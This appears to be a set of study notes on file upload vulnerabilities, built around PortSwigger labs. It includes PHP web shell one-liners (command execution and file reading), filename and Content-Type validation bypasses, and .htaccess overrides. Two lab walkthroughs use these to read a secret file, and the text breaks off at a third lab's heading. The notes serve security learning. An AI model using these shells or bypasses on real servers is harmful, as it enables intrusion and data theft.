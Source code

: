 # File Upload Vulnerabilities

[Portswigger](https://portswigger.net/web-security/file-upload#what-are-file-upload-vulnerabilities)

## Methodology

Hint: The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping

the following PHP one-liner could be used to read arbitrary files from the server's filesystem `<?php echo file_get_contents('/path/to/target/file'); ?>` 
or `<?php echo system($_GET['command']); ?>` 

### Flawed file input type validation

Example HTML form request:

```
POST /images HTTP/1.1
    Host: normal-website.com
    Content-Length: 12345
    Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="image"; filename="example.jpg"
    Content-Type: image/jpeg

    [...binary content of example.jpg...]

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="description"

    This is an interesting description of my image.

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="username"

    wiener
    ---------------------------012345678901234567890123456--
```

if input validation only applies to the first part of the `form-data` you can change the data types and get execution like that, notice the two different `Content-Type`s above

### Preventing file execution in user-accessible directories

As a precaution, servers generally only run scripts whose MIME type they have been explicitly configured to execute. Otherwise, they may just return some kind of error message or, in some cases, serve the contents of the file as plain text instead

Tip: Web servers often use the filename field in multipart/form-data requests to determine the name and location where the file should be saved

### Insufficient blacklisting of dangerous file types

Such blacklists can sometimes be bypassed by using lesser known, alternative file extensions that may still be executable, such as .php5, .shtml, and so on

### Overriding the server configuration

you may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable MIME type. 

examples:

Apache added as `.htaccess`

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```

IIS added as web.config

```
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>
```

### Obfuscating file extensions

steps to obfuscate

- case sensitive bypassing like `exploit.pHp`
- provide multiple extensions `exploit.php.jpg`
- add trailing characters `exploit.php.`
- try using URL encoding, or double URL encoding for dots, forward slashes, and backward slashes `exploit%2Ephp`
  - If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked
- Add semicolons or URL-encoded null byte characters before the file extension `exploit.asp;.jpg` or `exploit.asp%00.jpg`
- try using multibyte unicode characters which may be converted to null bytes and dots after unicode conversion or normalization like: `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path
- other defenses may strip or replace dangerous extensions, do this to maybe avoid: `exploit.p.phphp`

### Flawed validation of the file's contents

Instead of implicitly trusting the Content-Type specified in a request, more secure servers try to verify that the contents of the file actually match what is expected

certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata

### Exploiting file upload vulnerabilities without remote code execution

**Uploading malicious client-side scripts**

if you can upload HTML files or SVG images, you can potentially use <script> tags to create stored XSS payloads

**Exploiting vulnerabilities in the parsing of uploaded files**

example, you know that the server parses XML-based files, such as Microsoft Office `.doc` or `.xls` files, this may be a potential vector for XXE injection attacks

### Uploading files using PUT

some web servers may be configured to support PUT requests, this can provide an alternative means of uploading malicious files, even when an upload function isn't available via the web interface

Tip: You can try sending OPTIONS requests to different endpoints to test for any that advertise support for the PUT method.

## Labs walkthrough

### Remote code execution via web shell upload

Background: 

```
This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

- log into your account, notice the option for uploading an avatar image
- upload an arbitrary image and notice that afterwards your preview of your avatar is now displayed on the page
- in `Proxy > HTTP history` click the filter bar to open the `HTTP history filter` window, under the `Filter by MIME type` enable the `images` checkbox then apply the changes
- no in burp history search for the `GET` request to `/files/avatars/<YOUR-IMAGE>` and send it to repeater
- now on your system create a file called exploit.php containing this: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- use the avatar upload functionality to upload the above file, then in the repeater tab change the path to `GET /files/avatars/exploit.php HTTP/1.1` and send
- you will now have carlos' secret in the response

### Web shell upload via Content-Type restriction bypass

Background:

```
This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

- log in and upload an image as your avatar, go to your account page
- in burp go to `proxy > http history` and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>` and send it to repeater
- on your system create a file called exploit.php containing this: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- attempt to upload this script as your avatar but notice you get blocked, with an error saying only files with MIME type `image/jpeg` or `image/png`
- in burp go to history and send the `POST /my-account/avatar` request to repeater
- change the `content-type` to `image/jpeg` and send
- switch to the `GET` request in repeater and send to get the info for carlos' secret

### Web shell upload via path traversal






























